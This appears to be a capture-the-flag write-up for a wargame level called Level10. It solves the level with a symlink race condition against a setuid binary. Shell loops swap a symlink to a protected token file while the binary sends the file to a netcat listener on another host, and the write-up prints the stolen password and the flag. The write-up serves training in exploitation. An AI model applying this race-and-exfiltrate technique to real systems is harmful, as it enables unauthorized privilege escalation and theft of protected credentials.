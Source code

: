 # Level10

```bash
ls -la
# Output
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
echo hello > /tmp/test

# on host
ip_addr=`ifconfig en0 | egrep  "inet [0-9]+\." | awk -F' ' '{print $2}'`

ltrace ./level10 /tmp/test $ip_addr

# Solution

while :; do ln -sf /tmp/token /tmp/token10; ln -sf /home/user/level10/token /tmp/token10; done

 while :; do nice -n 20 /home/user/level10/level10 /tmp/token10 $ip_addr; done

on host do this
while true; do nc -l 6969 >> token; done

# OUtput
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c

su flag10
# passowrd: woupa2yuojeeaaed06riuj63c
getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c

